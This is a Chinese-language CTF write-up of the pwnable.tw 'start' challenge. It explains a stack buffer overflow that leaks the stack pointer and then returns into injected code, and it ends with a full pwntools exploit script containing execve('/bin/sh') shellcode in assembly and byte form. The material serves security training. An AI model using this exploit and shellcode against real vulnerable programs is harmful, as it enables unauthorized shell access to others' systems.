 检查文件信息
![[pwnable.tw/image/1.png]]
无任何保护，看反汇编 
![[pwnable.tw/image/2.png]]

如若利用shellcode得到shell则需要考虑esp如何获取的问题，很明显这里大概率不存在jump esp这种指令，仔细观察会发现它有push esp 指令，再看0x8048087这行语句，
ecx也就是esp作为write&read参数输出且输入。我们先利用read函数进行溢出，ret到0x8048082这个地址，此时栈里的值是push esp ，它作为缓冲区给write当参数，在编写脚本的时候利用sh.recv(4)接收输出的四个字节，也就是esp的地址，要注意第二次溢出的时候要把接收到的esp地址+0x14，因为最后要add esp,0x14，最后注意编写脚本的时候send()与sendline()的区别，后者会发送一个/n(0x0a)

这是exp
```
from pwn import *
import time

#context(arch='i386',os='linux')
#context(log_level='debug')

#sh = process('./start')
sh = remote('chall.pwnable.tw',10000)

#直到输入:
sh.recvuntil(':')
#gdb.attach(sh)
#sleep(15)

#第一次溢出点跳转点
jmp1 = 0x08048087
#第一次发送，获取esp地址
payload = flat([b'A'*20],jmp1)
#两种方式的payload
#payload =b'A'*20 + p32(jmp1)

#不要使用sendline()，会导致增加一个/n
sh.send(payload)

get_esp = u32(sh.recv(4))
print(get_esp)

#shellcode版本
shellcode = asm("""
xor ecx,ecx;
push ecx;
push 0x0068732f;
push 0x6e69622f;
mov ebx,esp;
mov eax,0xb;
xor edx,edx
int 0x80"""
)

#字符版本
test_shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80\x00'

payload = flat([b'B'*20,get_esp+20,shellcode])
sh.send(payload)

sh.interactive()

```